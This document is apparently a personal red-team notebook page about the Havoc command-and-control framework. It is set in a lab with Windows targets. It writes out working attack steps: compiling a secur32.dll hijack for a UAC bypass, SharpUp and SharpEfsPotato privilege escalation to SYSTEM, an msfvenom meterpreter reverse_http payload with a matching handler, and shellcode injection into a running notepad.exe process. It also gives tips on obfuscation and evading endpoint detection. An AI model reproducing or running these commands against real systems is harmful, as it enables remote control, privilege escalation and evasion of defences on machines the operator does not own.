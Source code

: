 Havoc is just on kali now....
```
xxd -i demon.x64.bin > output.txt
```
Run the teamserver
```bash
./havoc server --profile ./profiles/havoc.yaotl -v --debug
```
#### Client
```
cd ~/Desktop/Havoc/
```
```bash
make client-build
```
```
./havoc client
```
Name: Havoc
Host: 127.0.0.1
Port: 40056
User: 5pider
Password: password1234
#### Clearing database
```
cd ~\Desktop\Havoc\data
```
```
grep -v "$IP" > teamserver.db
```
#### Add listener
View > Listeners > Add > Provide Name: >  save
Attack > Payload > Arch > Windows Shellcode > Generate
[[5._firewall and AntiVirus#nimcrypt]]
#### SharpUp
Used for PrivEsc
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries.git
```
dotnet inline-execute /home/kali/Desktop/Ghostpack-CompiledBinaries/SharpUp.exe audit
```
#### HighBorn
Used for UAC bypass
```
mousepad /home/kali/Desktop/Home-Grown-Red-Team/HighBorn/HIghBorn.c
```
Change the path on line 6 to the malicious exe file on the target box.
`WinExec("C:\\Users\\fcastle\\Desktop\\havocy.exe",1);`
```
x86_64-w64-mingw32-gcc -shared -o secur32.dll HighBorn.c -lcomctl32 -Wl,--subsystem,windows
```
Move secur32.dll to python server path.
```
sudo apt install mono-complete -y
```
```
mcs -out:HighBorn.exe HighBorn.cs
```
```
mv HighBorn.exe /home/kali/Desktop/
```
Back in Havoc:
```
dotnet inline-execute /home/kali/Desktop/HighBorn.exe
```
**Note:** You’ll need more OPSEC if you’re doing this against EDR. Try it against a different EXE and DLL set. ComputerDefaults.exe is very well known.
We can enumerate with PowerShell commands
[[4._POST_EXPLOITATION/2._WIndows_PrivEsc/1._Manual Enumeration]]
#### SharpEfsPotato
Used to escalate to SYSTEM - Demo on DC as it already has setImpersonate enabled
git clone https://github.com/bugch3ck/SharpEfsPotato.git
Compile in Visual Studio!  [[0._Visual Studio Compiling]]
Copy paste the exe into Kali:
`C:\Users\fcastle\Desktop\SharpEfsPotato-master\SharpEfsPotato-master\SharpEfsPotato\bin\Release\SharpEfsPotato.exe`
```
dotnet inline-execute /home/kali/Desktop/SharpEfsPotato.exe -p C:\Users\Administrator\Desktop\havocy.exe
```
#### Metasploit post exploitation
```
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=$KALI LPORT=8080 -f raw > /home/kali/Desktop/msf.bin
```
Run through [[#Harriet]]
`/home/kali/Desktop/msf.bin`
`/home/kali/Desktop/Home-Grown-Red-Team/Harriet/msf.exe`
[[10._TOOLS/Metasploit#Meterpreter Listener 1 Liner]]
```
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter_reverse_http;set LHOST $KALI;set LPORT 8080;run;"
```
In Havoc:
```
shellcode inject x64 PID# /home/kali/Desktop/Home-Grown-Red-Team/Harriet/msf.exe
```
Example below with notepad.exe PID 3908
ALSO, msf.exe DID NOT RUN (too obfuscated?), but msf.bin worked fine
```
shellcode inject x64 3908 /home/kali/Desktop/msf.bin
```
[[10._TOOLS/Metasploit#Post exploit modules]]